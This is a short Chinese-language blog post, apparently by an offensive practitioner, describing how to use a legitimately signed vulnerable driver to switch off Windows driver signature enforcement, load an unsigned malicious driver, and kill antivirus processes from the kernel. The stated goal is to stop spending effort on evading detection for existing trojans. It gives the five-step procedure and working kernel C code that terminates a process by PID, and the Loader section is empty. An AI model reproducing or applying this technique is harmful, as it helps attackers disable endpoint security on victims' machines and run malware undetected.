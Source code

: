 # VulnBins的利用 \(vuln driver\)

## 简介

挺久没水博客了，今个简单写点，现在的杀软越来越"现代化"了，老是尝试免杀已有木马使我疲惫，干脆想重一劳永逸的解决办法，\(自写C2 狗头\),当然这是个体力活，这篇文件简单介绍下白漏洞驱动带起黑驱动，直接从内核干掉杀软。

## 流程

1. 找一个存在任意文件读取的漏洞驱动
2. 加载驱动并漏洞利用修改内核DES位\(作用于驱动签名校验\)
3. 加载黑驱动
4. 漏洞利用改回原值
5. 卸载白驱动

### 代码片段

鲨进程

```text
BOOLEAN KillProcess(ULONG PID)
{
	NTSTATUS ntStatus = STATUS_SUCCESS;
	PVOID hProcess;
	PEPROCESS pEprcess;
	ntStatus = PsLookupProcessByProcessId(PID, &pEprcess);

	if (NT_SUCCESS(ntStatus))
	{
		if (ObOpenObjectByPointer((PVOID)pEprcess, 0, NULL, 0, NULL, KernelMode, &hProcess) != STATUS_SUCCESS)
			return FALSE;
		ZwTerminateProcess((HANDLE)hProcess, STATUS_SUCCESS);
		ZwClose((HANDLE)hProcess);
		return TRUE;
	}
	return FALSE;
};
```

### Loader





